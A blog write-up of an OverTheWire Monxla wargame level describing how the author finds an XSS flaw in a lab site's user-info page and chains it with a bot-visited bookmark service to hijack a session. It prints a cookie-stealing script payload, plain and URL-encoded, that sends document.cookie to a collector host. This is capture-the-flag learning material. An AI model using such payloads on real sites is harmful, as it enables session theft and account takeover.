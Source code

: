 ```yaml
---
title: "OverTheWire Monxla Part 2"
date: "2012-11-25T05:05:00-05:00"
comments: true
highlight: "true"
categories:
 - overthewire
 - wargames
 - linux
 - monxla
aliases:
 - "/2012/11/26/overthewire-monxla-part-2"
 - "/2012/11/overthewire-monxla-part-2.html"
---
```


In the previous post, I showed how to get the PDF that outlines the services running on the Monxla VM image. This article will continue where that one left off.

<!-- more -->

Firstly, the PDF explains that there are 2 virtual hosts enabled on the machine. To configure my machine for these virtual hosts, I added these lines to my /etc/hosts file: 

```
192.168.188.134 nasenko.otw
192.168.188.134 honeylink.otw
```

There are 2 sites immediately available to you:

* The HoneyLink site is, so far, just a convenience for the wargame, so you don't have to setup your own HTTP server.  It gives you a prefix URL, that you can prepend anything you want to the end.  It will then show you the responses as they come in. {{% figure class="img-responsive" src="/img/monxla2_2.png" %}}
* The Nasenko home page. This is what appears to be the main application that we are attacking. It has a Bookmark Service, and the Notes service, which were referenced in the PDF, immediately visible. {{% figure class="img-responsive" src="/img/monxla2_1.png" %}}

After poking around a bit, I found that you are unable to access the Notes service, since you're not logged in. Per the blog article on the main page, login attempts are disabled. On the Bookmarks page, it says that the submitted bookmarks are being visited routinely. These two statements combined immediately made me think of using a [Session Hijacking](https://en.wikipedia.org/wiki/Session_hijacking) attack to steal the session of the user already logged in, checking the submitted bookmarks. 

To get started with my attack, I tried submitting several bookmarks, which were always rejected.  There was some sort of filtering going on, on the server side.  For some reason, I decided to try submitting the Nasenko site itself, and saw that it was actually accepted.  This means that I could at least submit data, as long as it was from the same website.  From there, that made me start thinking about finding a [Cross-Site Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability, so that I could redirect the traffic, and combine it with the Session Hijack attack. 

After searching for a bit, I found a Cross-Site Scripting vulnerability in the User Info page.  It wasn't cleanly filtering user input, so I was able to inject javascript into the "username" parameter. 

{{% figure class="img-responsive" src="/img/monxla2_3.png" %}}

To combine these two attacks, I crafted a URL that would use the Cross-Site Scripting attack to allow me to submit it from the proper host, as well as stealing the user's cookie: 

```
http://nasenko.otw/userinfo.php?username=<script>document.location='http://honeylink.otw/tH3zwj4P1z/cookie'+document.cookie;</script> 
```

However, due to some URL encoding issues (mainly the "+" splitting the parameter), I had to URL encode it using the [Burp Suite](http://portswigger.net/burp/): 

```
http://nasenko.otw/userinfo.php?username=%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%68%6f%6e%65%79%6c%69%6e%6b%2e%6f%74%77%2f%74%48%33%7a%77%6a%34%50%31%7a%2f%63%6f%6f%6b%69%65%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%3c%2f%73%63%72%69%70%74%3e
```

I submitted the URL to the Bookmark Service, and it gladly accepted it.  I then switched to the HoneyLink page, and clicked the "Refresh" button, and saw that my click had indeed been registered.  And lucky for me, it had the cookie listed:

{{% figure class="img-responsive" src="/img/monxla2_4.png" %}}

I then added a cookie with the stolen value. 

{{% figure class="img-responsive" src="/img/monxla2_5.png" %}}

When I then went to the Notes Service, which previously denied me access, I was able to view them. This meant it was successful. We successfully stole a valid user's session.

{{% figure class="img-responsive" src="/img/monxla2_6.png" %}}
